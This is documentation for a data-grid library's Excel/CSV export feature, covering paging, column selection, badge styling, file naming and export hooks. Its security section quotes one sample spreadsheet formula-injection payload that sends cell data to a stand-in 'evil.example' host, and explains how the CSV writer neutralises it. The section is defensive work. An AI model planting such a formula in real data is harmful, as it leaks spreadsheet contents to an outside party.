

# Export

Two formats — a formatted Excel workbook and a raw CSV — from one menu, with the
same flow on every platform.

- [The menu](#the-menu)
- [The export flow](#the-export-flow)
- [Fetch-all, and the row cap](#fetch-all-and-the-row-cap)
- [Which columns are written](#which-columns-are-written)
- [Excel: badge rules](#excel-badge-rules)
- [CSV: format and safety](#csv-format-and-safety)
- [File names](#file-names)
- [Notifications](#notifications)
- [Taking over the export](#taking-over-the-export)
- [Security](#security)

## The menu

| Item | Locale keys | Writer |
| --- | --- | --- |
| **Formatted Excel (.xls)** — "With colored badges & styling" | `exportExcelTitle`, `exportExcelSubtitle` | `downloadExcel` |
| **Raw CSV (.csv)** — "Standard unformatted data" | `exportCsvTitle`, `exportCsvSubtitle` | `downloadCsv` |

Hide the menu entirely with `enableExport={false}` (React),
`[enableExport]="false"` (Angular), `enableExport: false` (vanilla) or
`enable-export="false"` (Tag Helper).

The `.xls` file is an HTML-based workbook — the `mso` HTML dialect Excel has
opened for two decades — not a ZIP-packed `.xlsx`. That is what lets a
zero-dependency library produce a styled sheet in the browser with no
spreadsheet writer bundled. Excel, LibreOffice and Google Sheets all open it;
Excel may warn that the extension does not match the content, which is expected.
If you need a genuine `.xlsx`, generate it server-side and wire it up through
[`onExportAll`](#taking-over-the-export).

## The export flow



## Fetch-all, and the row cap

By default an export contains **the current page**. Pass a list endpoint and the
grid will page in the rest of the filtered dataset first:

```tsx
<TableX fetchEndpoint="/api/students" {...props} />
```

```html
<table-x fetchEndpoint="/api/students" …/>
```

```js
createTableX(container, {
  caption: "Students",
  endpoint: "/api/students",   // vanilla: fetchEndpoint defaults to this
  columns,
});
```

```cshtml
<table-x caption="Students" endpoint="/api/students" fetch-endpoint="/api/students">…</table-x>
```

In vanilla, `fetchEndpoint` defaults to `endpoint`, so endpoint-mode grids get
whole-dataset export for free. React and Angular have no `endpoint` mode, so
`fetchEndpoint` is explicit there.

The collection loop lives in core:

```ts
export const MAX_PAGE_SIZE = 100;
export const DEFAULT_ROW_CAP = 2000;

export interface AllPages<T> {
  items: T[];
  /** The server's true total, independent of how many rows were collected. */
  total: number;
  /** False when the cap stopped collection early. */
  complete: boolean;
}

export async function fetchAllPages<T>(
  fetchPage: (page: number, pageSize: number) => Promise<PagedResponse<T>>,
  cap: number = DEFAULT_ROW_CAP,
): Promise<AllPages<T>>;
```

What it does, and why:

- **Requests at `pageSize=100`, not `pageSize=999999`.** A well-behaved endpoint
  clamps `pageSize` to an allowlist, so asking for 5,000 rows does not return
  5,000 — it quietly returns a default-sized page and the export ends up with 10
  rows labelled "all". Walking pages at the largest allowlisted size is the only
  approach that works against a correct server.
- **Preserves `q`, `sort` and `filter`.** The file matches what the screen is
  showing; only `page` and `pageSize` are replaced.
- **Stops at 2,000 rows.** 20 requests at 100 rows. The cap is what keeps one
  export from turning into an unbounded fetch loop against a million-row table.
- **Stops on a short page too.** A page shorter than `MAX_PAGE_SIZE` means the
  server said that is all — which also protects against a server whose `total`
  disagrees with what it actually returns.
- **Degrades, never fails silently.** A failed request notifies
  `exportFetchFailed` and falls back to the current page rather than producing
  nothing.

`DEFAULT_ROW_CAP` is not configurable through the adapters. For a bigger export,
own the flow with [`onExportAll`](#taking-over-the-export) and call
`fetchAllPages` yourself with an explicit `cap` — where you can also honour
`complete: false` in your own UI:

```ts
import { buildQueryUrl, fetchAllPages, type PagedResponse, type QueryState } from "@nexgrid/core";

async function collectEverything<T>(endpoint: string, query: QueryState) {
  const result = await fetchAllPages<T>(async (page, pageSize) => {
    const response = await fetch(buildQueryUrl(endpoint, { ...query, page, pageSize: 100 }), {
      cache: "no-store",
    });
    if (!response.ok) throw new Error(`HTTP ${response.status}`);
    return (await response.json()) as PagedResponse<T>;
  }, 50_000);

  if (!result.complete) {
    console.warn(`Collected ${result.items.length} of ${result.total} rows.`);
  }
  return result;
}
```

While a fetch-all is running the export button is disabled and its label becomes
`locale.exportingButton` (`"Exporting…"`).

## Which columns are written

Only columns that are both **visible** (not hidden through the Columns menu or
`meta.hidden`) and **exportable**:

```ts
export function toExportColumns<TData, TRender>(
  columns: readonly TableXColumn<TData, TRender>[],
  labels?: { yes: string; no: string },
): ExportColumn<TData>[] {
  return columns.filter(isExportable).map((col) => ({
    header: getColumnTitle(col) || getColumnId(col),
    value: (row: TData) => getCellText(getCellValue(col, row), labels),
  }));
}
```

Three consequences worth knowing:

1. **Structural columns never appear.** `select` and `actions` are dropped
   regardless of `meta`.
2. **Values come from the row, not the renderer.** A custom cell is
   presentation, so a status pill exports as `Active`, not as markup. Put
   `meta.exportable: false` on purely presentational columns.
3. **Booleans use the locale.** `getCellText` renders them with
   `locale.booleanYes` / `locale.booleanNo`, so a German export writes
   `Ja` / `Nein`.

Header text is the column's `header` string; a function header has no string
form, so the id is title-cased instead.

## Excel: badge rules

The workbook gets a styled header row, zebra striping, an automatic serial
column (headed with `locale.serialHeader`), and value-based "badge" styling so
status-like values arrive coloured the way they look in the grid.

```ts
export interface ExcelBadgeRule {
  /** Case-insensitive cell values this rule applies to. */
  values: readonly string[];
  /** Badge background color (any CSS color Excel understands). */
  background: string;
  /** Badge text color. */
  color: string;
}
```

Matching is exact on the trimmed, lower-cased cell text — not a substring
match — and the **first** matching rule wins. A cell that matches nothing gets
plain `color: #334155`. An empty cell is written as `—`.

`DEFAULT_BADGE_RULES` covers four value families:

| Family | Values | Background / text |
| --- | --- | --- |
| success | `active`, `approved`, `graded`, `yes`, `published`, `completed`, `success` | `#dcfce7` / `#15803d` |
| warning | `pending`, `submitted`, `underreview`, `invited`, `draft`, `in progress` | `#fef3c7` / `#b45309` |
| danger | `disabled`, `rejected`, `no`, `critical`, `revoked`, `failed`, `inactive` | `#fee2e2` / `#b91c1c` |
| info | `superadmin`, `admin`, `staff`, `student`, `parent`, `user` | `#e0f2fe` / `#0369a1` |

Supplying `badgeRules` **replaces** the defaults rather than extending them.
Spread them in if you want both:

```ts
import { DEFAULT_BADGE_RULES, type ExcelBadgeRule } from "@nexgrid/core";

export const badgeRules: readonly ExcelBadgeRule[] = [
  { values: ["Enrolled", "Graduated"], background: "#dcfce7", color: "#15803d" },
  { values: ["Withdrawn"], background: "#fee2e2", color: "#b91c1c" },
  ...DEFAULT_BADGE_RULES,
];
```

```tsx
// React
<TableX badgeRules={badgeRules} exportFileName="student_roster" {...props} />
```

```ts
// Angular — a component field, bound with [badgeRules]
readonly badgeRules: readonly ExcelBadgeRule[] = [
  { values: ["Active"], background: "#dcfce7", color: "#15803d" },
  { values: ["Disabled"], background: "#fee2e2", color: "#b91c1c" },
];
```

```js
// Vanilla
createTableX(container, {
  caption: "Students",
  endpoint: "/api/students",
  columns,
  badgeRules: [
    { values: ["Active"], background: "#dcfce7", color: "#15803d" },
    { values: ["Disabled"], background: "#fee2e2", color: "#b91c1c" },
  ],
});
```

Pass `badgeRules: []` for an unstyled workbook.

The workbook string is available on its own if you want to inspect or ship it
elsewhere:

```ts
import { toExcelHtml, toExportColumns } from "@nexgrid/core";

const html = toExcelHtml({
  filename: "students",
  caption: "Students",
  rows,
  columns: toExportColumns(columns, { yes: "Yes", no: "No" }),
});
```

## CSV: format and safety

`toCsv` produces RFC 4180 output, and `downloadCsv` writes it with a UTF-8 BOM:

- **CRLF line endings** — Excel is the primary consumer.
- **Quoted when needed** — any cell containing `"`, `,`, CR or LF is wrapped in
  quotes with inner quotes doubled. Names carry commas and free-text fields
  carry newlines; a naive `join(",")` would silently corrupt exactly the rows an
  operator is most likely to be investigating.
- **UTF-8 BOM** — without it, Excel reads the file in a legacy codepage and
  accented names arrive mojibake'd.
- **Formula injection neutralised** — see below.

```ts
export function toCsv<T>(rows: readonly T[], columns: readonly ExportColumn<T>[]): string;
export function downloadCsv<T>(
  filename: string,
  rows: readonly T[],
  columns: readonly ExportColumn<T>[],
): number;   // returns the row count written (0 outside a browser)
```

## File names

```ts
export function filePrefixFromCaption(caption: string): string;   // "Student Records" -> "student_records"
export function timestampedFilename(prefix: string, now?: Date): string;  // "students_export_2026-08-24"
```

- The prefix is `exportFileName` when set, otherwise
  `filePrefixFromCaption(caption)`.
- **Excel** uses the prefix as-is: `students.xls`.
- **CSV** adds the date: `students_export_2026-08-24.csv`.

Both writers append the extension if it is not already there.

## Notifications

The grid never renders a toast. A toast belongs to your design system, and two
competing toast stacks in one page is a worse bug than no toast at all.
Everything the export wants to say arrives at `onNotify` / `(notify)` as
`{ type, message }`:

| When | `type` | Locale key |
| --- | --- | --- |
| Starting a fetch-all | `info` | `exportFetchingAll` — `"Fetching all {total} records for export…"` |
| Fetch-all failed, falling back | `error` | `exportFetchFailed` |
| Nothing to export | `error` | `exportNoData` |
| Excel written | `success` | `exportExcelSuccess` — `"Exported {count} formatted records to Excel (.xls)"` |
| CSV written | `success` | `exportCsvSuccess` |

```tsx
<TableX onNotify={({ type, message }) => toast[type](message)} {...props} />
```

```html
<table-x (notify)="toast($event)" …/>
```

```js
createTableX(container, {
  caption: "Students",
  endpoint: "/api/students",
  columns,
  onNotify: ({ type, message }) => myToast[type](message),
});
```

Counts and totals are formatted with `toLocaleString()` before substitution, so
`{count}` arrives as `1,284`.

## Taking over the export

Set `onExportAll` (React, vanilla) or listen to `(exportAll)` (Angular) and the
built-in flow never runs — no fetch-all, no file writing, no notifications. Use
it for a real `.xlsx`, a background job, or a signed download URL.

```tsx
"use client";

import { useCallback, useEffect, useState } from "react";
import {
  TableX,
  buildQueryUrl,
  defaultQuery,
  serializeQuery,
  type TableXReactColumn,
  type PagedResponse,
  type QueryState,
} from "@nexgrid/react";
import "@nexgrid/react/styles.css";

interface Student {
  id: number;
  name: string;
  email: string;
}

const columns: TableXReactColumn<Student>[] = [
  { accessorKey: "name", header: "Name" },
  { accessorKey: "email", header: "Email" },
];

export function StudentsGrid() {
  const [query, setQuery] = useState<QueryState>(defaultQuery());
  const [page, setPage] = useState<PagedResponse<Student> | null>(null);
  const [isLoading, setIsLoading] = useState(true);

  const load = useCallback(async (next: QueryState) => {
    setIsLoading(true);
    try {
      const response = await fetch(buildQueryUrl("/api/students", next));
      setPage((await response.json()) as PagedResponse<Student>);
    } finally {
      setIsLoading(false);
    }
  }, []);

  useEffect(() => {
    void load(query);
  }, [load, query]);

  // The server builds a real .xlsx over the SAME query the grid is showing.
  const exportOnServer = async () => {
    const response = await fetch(`/api/students/export?${serializeQuery(query)}`, {
      method: "POST",
    });
    const { downloadUrl } = (await response.json()) as { downloadUrl: string };
    window.location.assign(downloadUrl);
  };

  return (
    <TableX
      caption="Students"
      columns={columns}
      data={page?.items ?? []}
      total={page?.total ?? 0}
      query={query}
      onQueryChange={setQuery}
      isLoading={isLoading}
      onExportAll={exportOnServer}
    />
  );
}
```

```html
<!-- Angular: merely LISTENING replaces the built-in export -->
<table-x caption="Students" [columns]="columns" [data]="rows()" [total]="total()"
          [query]="query()" (queryChange)="load($event)" (exportAll)="exportOnServer()" />
```

```js
// Vanilla
import { createTableX, serializeQuery } from "@nexgrid/vanilla";
import "@nexgrid/vanilla/styles.css";

const columns = [
  { accessorKey: "name", header: "Name" },
  { accessorKey: "email", header: "Email" },
];

const grid = createTableX(document.getElementById("grid"), {
  caption: "Students",
  endpoint: "/api/students",
  columns,
  // Runs after `grid` is assigned, so reading the handle here is safe.
  onExportAll: async () => {
    const response = await fetch(`/api/students/export?${serializeQuery(grid.getQuery())}`, {
      method: "POST",
    });
    const { downloadUrl } = await response.json();
    window.location.assign(downloadUrl);
  },
});
```

Both export menu items route to the same handler — the grid does not tell you
which format was picked. Offer the choice in your own UI if you need one.

## Security

**Spreadsheet formula injection.** A cell beginning `=`, `+`, `-`, `@`, tab or CR
is executed as a formula when the file is opened. Grid data is frequently
user-supplied, so a value like `=HYPERLINK("http://evil.example/?"&A1,"Click")`
would otherwise become a live formula in an operator's spreadsheet
([OWASP CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)).
`toCsv` prefixes such a value with a single quote, which spreadsheets treat as
"this is text". The visible value is unchanged.

**HTML escaping in the workbook.** The Excel writer escapes `&`, `<`, `>` and
`"` in every header, cell and the caption, so a row value cannot inject markup
into the generated document. The sheet name additionally strips `\ / * ? : [ ]`
and truncates to Excel's 31-character limit.

**Client-side only.** Both writers build a `Blob` and click a temporary anchor —
nothing is uploaded, and both functions no-op (returning `0`) outside a browser,
so calling them during SSR is safe.

**Authorization is still the server's job.** `fetchEndpoint` walks *your* list
endpoint with the user's own credentials. Rows the user may not see must not be
returned by that endpoint in the first place; the grid cannot filter what the
API hands it. On ASP.NET Core, apply tenant and role predicates **before**
`ToPagedResponse` — see
[Server integration](../server-integration.md#the-allowlist).

**Exports leave your perimeter.** A 2,000-row export of personal data is a
data-egress event. The cap limits the blast radius by default; `onExportAll` is
the hook for audit logging, rate limiting, or requiring elevated permission.

## Related

- [Columns](../columns.md#columns-and-export) — `meta.exportable`
- [Localization](../localization.md) — every export string
- [`@nexgrid/core` API](../api/core.md) — `fetchAllPages`, `toExportColumns`, `downloadCsv`, `downloadExcel`
